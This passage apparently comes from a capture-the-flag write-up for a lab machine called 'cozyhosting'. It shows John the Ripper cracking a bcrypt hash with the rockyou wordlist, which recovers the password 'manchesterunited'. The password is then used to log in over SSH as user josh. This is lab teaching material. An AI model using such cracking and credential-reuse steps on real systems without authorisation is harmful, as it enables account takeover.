 We can crack one of these hashes using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:14 DONE (2023-09-04 14:02) 0.07062g/s 198.3p/s 198.3c/s 198.3C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The user in the machine is called `josh`:

```
app@cozyhosting:/app$ ls /home
josh
```

Using this password, we can `ssh` in as `josh`:

<figure><img src="../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>
